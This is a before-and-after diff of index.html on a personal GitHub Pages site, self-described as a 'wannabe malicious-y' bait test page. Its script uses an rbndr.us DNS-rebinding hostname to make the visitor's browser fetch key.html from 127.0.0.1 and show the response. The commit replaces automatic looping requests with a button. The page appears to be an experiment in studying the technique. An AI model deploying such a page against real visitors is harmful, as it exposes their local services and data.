

Before and after one commit to blipmdf/blipmdf.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,47 +1,42 @@
 <html>
 	<head>
-		Bait
+		<title>Bait page</title>
 	</head>
 	<body>
 
-	<div> This is a wannabe malicious-y test page running a script. </div>
-	<p id="reply"></p>
-
+	<div> <h1>This is a wannabe malicious-y test page</h1><p>...not so quietly running a script.</p></div>
 	<script>
-		var xhttp = new XMLHttpRequest();
 		function load() {
+			var xhttp = new XMLHttpRequest();
 			var foundIt = false;
 			var response = "";
-			var breakSwitch = 0;
-
-			while(foundIt != true && breakSwitch < 2000){
-					breakSwitch ++;
-
+			//var breakSwitch = 0;
+			//while(foundIt != true && breakSwitch < 2000){
+			//		breakSwitch ++;
 					xhttp.onreadystatechange = function() {
 							if (this.readyState == 4 && this.status == 200) {
 									console.log("here");
 									var response = this.responseText;
 									substring = "key";
 									if(response.indexOf(substring) !== -1){
-											document.getElementById("reply").innerHTML = response;
+											document.getElementById("display_result").innerHTML = response;
 											foundIt=true;
 											console.log("Found key!");
-									}else{
-											console.log("Key not found, retrying....");
-									}
+									}//else{
+									//		console.log("Key not found, retrying....");
+									//}
 							}
 					};
-
 					xhttp.open("GET", "http://a48a1f96.7f000001.rbndr.us/key.html", true);
 					//xhttp.open("GET", "http://127.0.0.1/key.html", true);
 					xhttp.setRequestHeader("Content-type", "text/plain");
 					console.log("Sending request!");
 			  		xhttp.send();
-			}
+			//}
 		}
-
-		load();
+		//load();
 	</script>
-
+	<button style="background-color: silver" onclick="load()">Reload!</button>
+	<div id="display_result" style="width: 400px; height: 100px; border-width: 2px; border-color: black"></div>
 </body>
 </html>
```
